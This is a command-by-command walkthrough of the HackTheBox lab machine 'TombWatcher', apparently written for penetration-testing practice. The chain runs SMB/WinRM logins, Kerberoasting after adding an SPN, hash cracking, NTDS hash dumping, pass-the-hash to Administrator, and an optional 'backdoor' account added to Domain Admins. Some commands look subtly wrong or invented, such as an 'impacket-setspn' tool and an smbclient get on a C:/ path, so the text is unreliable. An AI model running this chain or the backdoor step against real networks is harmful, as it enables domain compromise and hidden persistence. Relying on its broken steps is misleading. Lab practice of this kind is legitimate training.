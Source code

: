 This is a step-by-step, command-supported walkthrough for HackTheBox’s "TombWatcher" machine, designed to help both beginners and intermediate users gain practical penetration testing experience. All stages, from environment setup to domain admin escalation, are included.

---

## 1. Preparation: Account and Environment

Sign up at HackTheBox and comply with HTB’s rules.

Download your HTB VPN connection pack and initiate a secure VPN connection:

```bash
sudo openvpn --config /path/to/htb.ovpn
```

**Tools needed:**
- Nmap: for network and port scanning  
- Wireshark: for packet analysis  
- Burp Suite: for web scanning  
- Metasploit: for exploitation  
- BloodHound: for AD enumeration

---

## 2. Reconnaissance & Initial Enumeration

### 2.1 Set up hosts
```bash
echo "10.129.139.125 tombwatcher.htb DC01.tombwatcher.htb" | sudo tee -a /etc/hosts
```

### 2.2 Nmap Full Port Scan
```bash
nmap -Pn -p- --min-rate 2000 -sC -sV -oN tombwatcher-scan.txt 10.129.139.125
```

**Key open ports:**
- 53 (DNS)
- 80 (IIS HTTP)
- 88 (Kerberos)
- 135 (MSRPC)
- 139/445 (SMB)
- 389/636 (LDAP/LDAPS)
- 5985 (WinRM)

---

## 3. Gaining Initial Foothold

### 3.1 Using Provided Credentials
```bash
crackmapexec smb 10.129.139.125 -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb
```

Try WinRM (for remote shell):

```bash
evil-winrm -i 10.129.139.125 -u henry -p 'H3nry_987TGV!'
```

If access denied, proceed with SMB enumeration.

### 3.2 SMB Share Enumeration

List available shares:

```bash
smbclient -L //10.129.139.125 -U 'tombwatcher.htb\henry%H3nry_987TGV!'
```

Connect to user shares:

```bash
smbclient //10.129.139.125/Users -U 'tombwatcher.htb\henry%H3nry_987TGV!'
```

Retrieve any notes or files for clues.

---

## 4. Web Application Enumeration

Directory brute-force:

```bash
gobuster dir -u http://10.129.139.125 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt
```

Check `/backup/`:

```bash
wget http://10.129.139.125/backup/web-backup-2025-05-01.zip
unzip web-backup-2025-05-01.zip
```

Look for configuration files.

---

## 5. Leveraging Discovered Credentials

```bash
crackmapexec smb 10.129.139.125 -u alfred -p '4lfr3d_Rul3z!' -d tombwatcher.htb
```

---

## 6. Active Directory (AD) Enumeration with BloodHound

```bash
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.129.139.125 -c All
```

Use BloodHound GUI to analyze.

---

## 7. Kerberoasting via WriteSPN Abuse

Add SPN:

```bash
impacket-setspn -t tombwatcher.htb -u 'tombwatcher.htb\henry:H3nry_987TGV!' -s http/alfredsvc.tombwatcher.htb alfred
```

Dump and crack TGS ticket:

```bash
impacket-GetUserSPNs -dc-ip 10.129.139.125 tombwatcher.htb/henry:H3nry_987TGV! -request
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt --force
```

---

## 8. Privilege Escalation — Backup Operators Abuse

```bash
smbclient //10.129.139.125/C$ -U 'tombwatcher.htb\alfred%4lfr3d_Rul3z!'
get C:/Backups/ntds-backup-20250501.dit
```

Dump hashes:

```bash
impacket-secretsdump -dc-ip 10.129.139.125 tombwatcher.htb/alfred:4lfr3d_Rul3z!@10.129.139.125 -just-dc
```

---

## 9. Achieving Domain Administrator

```bash
evil-winrm -i 10.129.139.125 -u Administrator -H <NTLM_HASH>
```

Retrieve the flag:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 10. Persistence (Optional)

```powershell
New-ADUser -Name "backdoor" -AccountPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "Domain Admins" -Members "backdoor"
```

---

## Key Takeaways

- Enumeration is critical: Use BloodHound, crackmapexec, and SMB/LDAP/web scanning thoroughly.
- AD misconfigurations (e.g., WriteSPN, Backup Operators) are common escalation paths.
- Automate password/hash attacks using hashcat or impacket scripts.
- Persistence can be set via new domain accounts or registry "Run" entries post-compromise.
